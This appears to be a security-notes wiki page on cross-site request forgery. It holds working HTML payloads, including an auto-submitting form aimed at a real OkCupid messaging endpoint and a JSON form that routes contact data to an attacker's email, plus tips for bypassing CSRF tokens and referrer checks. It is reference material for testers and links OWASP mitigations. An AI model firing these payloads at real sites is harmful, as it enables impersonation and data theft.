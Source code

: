 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery \(CSRF\)

## Overview

If a website automatically sends a user's credentials when you interact with it \(cookies are sent automatically\), then CSRF can be used to impersonate the user \(assuming the website doesn't do anything to prevent it\).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

[https://blog.azuki.vip/csrf/](https://blog.azuki.vip/csrf/)  


**Caveats** \(as of august 2021\):

* The server must not require **content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax** on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```text
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

Zseano also talked about it in his [blog article](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html). Here's his payload \(but his is **older**\):

```text
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="{"params":{"limit":20,"and":false,"filters":[],"excluded_contacts":[]},"fields":["First Name","Last Name","Email Address","Title","Notes","Organization","Street","City","State","Tags","Zip Code","Phone Number","Gender","Event ID","Event Title","VIP","Twitter Handle","Twitter URL","Twitter Followers","Twitter Following","Facebook Name","Facebook URL","Facebook Friends","Instagram Handle","Instagram URL","Instagram Followers","Instagram Following","Website","Date Added","Unsubscribed"],"recipient":"myemail+2" value='@gmail.com'>
         <input type="submit" value="submit"> </form>
     </body>
  </html>
  
```

### XML

From Zseano's [blog](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html):

```text
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="<foo> <html xmlns:html='http://www.w3.org/1999/xhtml'> <html:script>alert(1);</html:script> </html> </foo>">
         <input type="submit" value="submit"> </form>
     </body>
  </html>
```

## Login CSRF

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html\#login-csrf" %}

Many developers tend to ignore CSRF vulnerabilities on login forms. They assume that CSRF would not be applicable on login forms because the user is not authenticated at that stage. However, CSRF vulnerabilities can still occur on login forms where the user is not authenticated, but the impact and risk is different.

For example, if an attacker uses CSRF to authenticate a victim on a shopping website using the attacker's account, and the victim then enters their credit card information, an attacker may be able to purchase items using the victim's stored card details

## Mitigations

OWASP Prevention Cheat Sheet

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html" %}

## Mitigation Bypasses

#### CSRF Tokens

If an anti-CSRF token is added, you can bypass it with:

* XSS
* Steal the CSRF token \(using CSS injection, for example\)
* Clickjacking
  * If you can fill in the data you want for them, and then clickjack them into hitting “submit” \(through an iframe\), then you can make a request on their behalf
* CSRF token misconfigurations
  * Try a blank csrf token
  * Try to see if accounts can share the same CSRF token. Make 2 accounts and see if the same token works for both.
  * Change one character in the token, maybe it only checks length or something.

#### Referrer Header Checking



If the Referrer header is checked, then you can try a few things:  

1. If `site.com/csrf` checks that "site.com" is in the string, you can send the query from `malicious.com/site.com` or `site.com.malicious.com` .
2. Send a blank referrer header and see if that works
3. Use XSS \(like reflected XSS\) to achieve the goal.







